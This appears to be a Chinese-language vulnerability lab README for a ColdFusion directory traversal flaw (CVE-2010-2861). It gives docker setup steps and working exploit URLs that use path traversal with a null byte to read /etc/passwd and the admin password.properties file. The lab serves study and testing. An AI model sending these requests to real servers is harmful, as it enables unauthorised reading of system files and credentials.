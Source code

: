 # Adobe ColdFusion 文件读取漏洞（CVE-2010-2861）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 环境搭建

执行如下命令启动Adobe CouldFusion 8.0.1版本服务器：

```
docker compose up -d
```

环境启动可能需要1~5分钟，启动后，访问`http://your-ip:8500/CFIDE/administrator/enter.cfm`，可以看到初始化页面，输入密码`admin`，开始初始化整个环境。

## 漏洞复现

直接访问`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：

![](1.png)

读取后台管理员密码`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

![](2.png)
